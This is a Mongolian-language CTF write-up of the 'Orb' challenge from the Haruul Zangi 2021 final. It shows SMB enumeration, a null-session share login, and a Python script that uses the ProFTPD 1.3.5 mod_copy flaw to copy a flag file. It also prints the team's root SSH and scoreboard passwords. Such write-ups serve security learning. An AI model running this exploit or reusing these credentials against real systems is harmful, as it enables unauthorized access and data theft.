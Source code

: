 ```yaml
---
published: true
---
```

# HZ 2021 Final Round Orb
<p align="center">
🐱‍💻 Зочилсон хүний тоо 🐱‍💻 
</p>

<img src="![Visitor Count](https://profile-counter.glitch.me/{fg0d}/count.svg")>

<p align="center">
  <img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/hzz.png">
</p>

"Харуул Занги 2021" амжилттай болж өндөрлөлөө. Миний бие энэ жил **AnonSec** багаас хоёр найзтайгаа хамт оролцсон бөгөөд 1-р шатанд 3-р байранд , 2-р шатанд 5-р байранд орсон билээ. Энэ жил өмнө жилийн тэмцээнийг сонирхолтой болгож өгсөн зүйл нь Финалын шат "Attack And Defense" төрлөөр явагдсан. Манай баг төдийлөн өндөр амжилт үзүүлж чадаагүй ч гэсэн өөрсдийн бодсон бодлогоо тайлбартайгаар хүргэх нь зүйтэй болов уу гэж бодлоо.

## Orb

Финалын шатанд баг бүрт тусдаа **Docker** үүсгэж өгсөн учраас эхлээд SSH-ээр хандаж орох хэрэгтэй болсон

Жишээ нь: **Манай багийн SSH login хэсэг**

Багийн нэр: **AnonSec**
<br>
Манай багийн domain: **hz-vulbox3.haruulzangi.mn**
<br>
SSH username: **root**
<br>
SSH password: **u3RYQMZDaAg4bEEq6SmLOi**
<br>
[Онооны самбар харах , флагаа оруулах хэсэг:](http://final.haruulzangi.mn:19999/)
<br>
"Нэвтрэх нэр": **AnonSec**
<br>
"Нууц үг": **5Ft1ELGZOqUI87W4**

Үүний дараа бид challenge бүрийн docker-н мэдээллийг харахын тулд энэхүү тушаалыг ашиглах боломжтой

root@ip-10-10-20-23:~# **docker ps -a**

`e57944a41e96   orb             "/tmp/entrypoint.sh …"   9 hours ago    Up 6 hours   0.0.0.0:21->21/tcp, :::21->21/tcp, 0.0.0.0:139->139/tcp, :::139->139/tcp, 0.0.0.0:445->445/tcp, :::445->445/tcp, 0.0.0.0:2205->22/tcp, :::2205->22/tcp   orb`

Тушаалыг бичсэнээр бид нар **Orb** даалгаварлуу **bash shell** -ээр орж байгаа юм.

root@ip-10-10-20-23:~# **docker exec -it orb /bin/bash**

Орсны дараа файлуудыг нэг бүрчлэн туршиж үзэхэд **ProFTPd** , **Samba** гэсэн хоёр танил сервис байхыг харж болно. 

`Samba буюу SMB нь 445 , 139-р портон дээр ажилладаг файл хуваалцах боломжыг бүрдүүлдэг протокол`

`ProFTPd буюу FTP нь 21-р портон дээр ажилладаг файл дамжуулах боломжыг бүрдүүлдэг протокол`

> SMB дээр Null session үүсгэж нууц үг шаардлагүйгээр хандалт хийх боломжтой эмзэг байдал байдаг

> ProFTPd дээр хамгийн сайн мэдэх mod_copy эмзэг байдал байдаг

Одоо тэгвэл энэхүү хоёр сервисын уялдаа холбоог жаахан ойлгох хэрэг гарна. Эхлээд юуг ашиглаж болох вэ гэхээр:

SMB-г **Enumeration** хийж мэдээлэл цуглуулах хэрэгтэй.

`$IP = '18.162.113.173'`

`enum4linux -A $IP`

ингэснээр ямар хэрэглэгчид байгаа мэдээллийг , мөн default-аар байгаа бол шууд нууц үгийг олох боломжтой байдаг

`yondu`

`gamora`

`nebula`

гэсэн 3 хэрэглэгч олдлоо

Тэгвэл энэхүү 3 хэрэглэгчрүү ороход бидний Permission хүрэх үү? **Access** хийж чадах уу гэдгийг шалгахын тулд:

`$IP = '18.162.113.173'`

`smbmap -H 18.162.113.173`

|print$          |Disk      |Printer Drivers|
|----------------|----------|---------------|
|yondu           |Disk      |/samba/ is a nice planet to place orb ( Admin access )|
|gamora          |Disk      |Where is the orb? ( Admin access )|
|nebula          |Disk      |Why is gamora? ( Free access )|
|IPC$            |IPC       |IPC Service (e57944a41e96 server (Samba, Ubuntu))|
    
үүнээс харвал **nebula** хэрэглэгчрүү нэвтрэхэд **Free access**-тай буюу **Null session** үүсгэх боломжтой байгааг харж болно.

`smbclient //18.162.113.173/nebula`

нууц үг шаардлагагүй шууд **Enter** дараад орно

Энэ маань бидний файлаа хуулаад тавихад харах боломжтой хэрэглэгч гэж ойлгож болно.

За одоо ProFTPd-гээр үндсэн **flag** файлаа mod_copy хийж **nebula** хэрэглэгчрүү хуулах шаардлага үүсэж байгаа

IP-гаар нь скан хийж үзвэл:

`21/tcp   open   ftp         ProFTPD 1.3.5`

ProFTPd 1.3.5 хувилбар байсан бөгөөд Exploit-н хайж үзвэл

[Exploit хийх линк](https://www.exploit-db.com/exploits/36742)  энэхүү линкээр ороод үзэж болно

Шууд энэхүү exploit-г ажиллуулах боломжгүй бөгөөд үүнийг скрипт болгоод бага зэрэг өөрчлөлт оруулвал

```python
import sys
import socket
import requests

def exploit(client, target):
    client.connect((target,21)) # Connecting to the target server
    banner = client.recv(74)
    print(banner.decode())
    client.send(b'site cpfr /flag\r\n')
    print(client.recv(1024).decode())
    client.send(b'site cpto /samba/nebula/flag.txt\r\n')
    print(client.recv(1024).decode())
    client.close()
    print('Exploit Completed')

def check(url):
    req = requests.get(url) # Requesting the written PoC php file via HTTP
    if req.status_code == 200:
        print('[+] File Written Successfully')
        print(f'[+] Go to : {url}')
    else:
        print('[!] Something Went Wrong')
        print('[!] Directory might not be writable')

def main():
    client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    target = sys.argv[1]
    exploit(client, target)
    url = 'http://' + target + '/test.php'
    check(url)

if __name__ == '__main__':
    main()
```

**Exploit completed** болсоны дараа **smbclient**-аар орсон **nebula** хэрэглэгчээр ороод **dir** тушаалыг биелүүлэхэд **flag** хуулагдсан байх болно

<p align="center">
  <img src="https://raw.githubusercontent.com/fg0d/fg0d.github.io/master/photos/flag.PNG">
</p>
